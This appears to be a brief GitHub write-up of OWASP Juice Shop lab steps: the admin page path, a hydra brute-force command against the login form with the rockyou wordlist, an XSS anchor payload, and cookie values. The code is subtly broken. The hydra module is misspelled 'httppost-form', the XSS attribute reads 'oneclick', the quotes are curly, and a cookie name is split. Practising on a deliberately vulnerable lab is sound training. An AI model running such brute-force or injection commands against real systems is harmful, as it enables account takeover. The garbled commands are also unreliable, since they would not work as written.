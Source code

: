 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



2-(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 


![image](https://github.com/user-attachments/assets/61580b47-9d74-4394-80ea-ac97513c2b9a)


3-<a href=”#”  oneclick=”alert(‘XSS’)”> OFFERS!!! </a>..
![image](https://github.com/user-attachments/assets/3bd63a29-c1a5-4edf-b64b-1f12cad7397b)

4-The cookie: 
(language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss) 
![image](https://github.com/user-attachments/assets/9eba5710-81ae-45e5-99b4-eeb9b052e58f)


